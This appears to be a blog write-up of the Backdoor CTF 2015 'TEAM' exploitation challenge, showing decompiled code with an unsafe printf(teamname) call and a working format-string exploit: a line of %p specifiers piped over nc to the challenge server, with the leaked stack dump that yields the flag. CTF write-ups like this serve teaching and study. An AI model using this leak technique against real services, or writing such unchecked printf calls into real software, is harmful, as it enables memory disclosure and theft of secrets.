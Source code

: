 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - TEAM Writeup"
date: 2015-04-03 03:16:39 +0430
comments: false
categories: ctf backdoor exploit fmt leak
---
```


**Backdoor 2015 TEAM Writeup**  
**Point = 600**  
**Category = Exploit**  

> There is a wierd kind of authentication service running: nc hack.bckdr.in 8004. The binary can be found here. The vampire says that there is no need for bruteforce.

```
$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=3fb6836dc9249bd1e7c33e023d563ff429d7dca4, stripped
$ checksec.sh --file team
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   team

```

Ok looking into the binary in IDA shows us two function `0x08048769` and `0x080486ad` are important to us. the first one can be seen bellow:
<!--more-->
```
int sub_8048769()
{
  const char *v0; // ST18_4@1
  const char *v1; // ST1C_4@1

  v0 = (const char *)malloc(0xC8u);
  v1 = (const char *)malloc(0x64u);
  printf("Enter teamname: ");
  fflush(stdout);
  __isoc99_scanf("%200s", v0);
  printf("Enter flag: ");
  fflush(stdout);
  __isoc99_scanf("%100s", v1);
  sleep(2u);
  sub_80486AD(v0, v1);
  free((void *)v0);
  free((void *)v1);
  return 0;
}
```
As you can see there is no potential flaw so we skip to second one:

```
signed int __cdecl sub_80486AD(const char *a1, const char *a2)
{
  signed int result; // eax@2
  int v3; // edx@7
  FILE *stream; // [sp+24h] [bp-74h]@1
  char s; // [sp+28h] [bp-70h]@3
  int v6; // [sp+8Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    fgets(&s, 100, stream);
    printf(a1);
    if ( !strcmp(&s, a2) )
      puts(" : correct flag!");
    else
      puts(" : incorrect flag. Try again.");
    fclose(stream);
    result = 0;
  }
  else
  {
    result = 1;
  }
  v3 = *MK_FP(__GS__, 20) ^ v6;
  return result;
}
```

interesting! in this function flag.txt will be opened and read but the important part is `printf(a1);`. remember previous function `a1` is the `v0` var which have the teamname! So there is a *Format String Vulnerability*. And the abuse is pretty simple, just printing the stack addresses to leak the flag:

```
$ cat 5
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
A

$ cat 5 | nc hack.bckdr.in 8004
Enter teamname: Enter flag: 0x640x9dd11400xf770ec20(nil)0x10x9dd10d80x9dd10080xf773855c0x9dd11400x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x626631370x80483000x1(nil)0x1(nil)(nil)0xff8b30880xf772b5000x10x5fc69000(nil)(nil)0xff8b3088 : incorrect flag. Try again.
```

you can see that 
```
0x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x62663137
```
is our flag. using python `struct` module for all gives us this one:

```
[redacted]
```

which added 600pts to our points.

HAMIDx9
